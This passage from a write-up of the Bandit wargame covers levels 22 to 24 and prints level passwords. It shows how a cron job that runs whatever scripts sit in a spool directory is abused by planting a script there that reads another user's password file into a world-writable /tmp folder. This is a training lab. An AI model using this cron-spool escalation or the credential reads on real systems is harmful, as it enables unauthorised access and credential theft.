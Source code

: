 To get the password, simply execute the same commands with `bandit23` as `$myname`:

```bash
bandit22@bandit:/etc/cron.d$ myname=bandit23
bandit22@bandit:/etc/cron.d$ echo I am user $myname | md5sum | cut -d ' ' -f 1
8ca319486bfbbc3663ea0fbe81326349
bandit22@bandit:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

The password is `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`.

## Level 23 → Level 24

Another shell script is executed periodically:

```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Executing $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

The script runs all the scripts in the `/var/spool/bandit24` directory as `bandit24`, then deletes them. To get the password:

1. Create a script that cats the `bandit24` password file and saves it in the `/tmp` directory (which is world-writable):
   ```bash
   bandit23@bandit:~$ mkdir /tmp/myname123
   bandit23@bandit:~$ cd /tmp/myname123
   bandit23@bandit:/tmp/myname123$ vim getpass.sh
   ```

   Script contents:
   ```bash
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/myname123/bandit24_password
   ```

2. Make the script executable and copy it to the `/var/spool/bandit24` directory:
   ```bash
   bandit23@bandit:/tmp/myname123$ chmod 777 getpass.sh
   bandit23@bandit:/tmp/myname123$ cp getpass.sh /var/spool/bandit24/
   ```
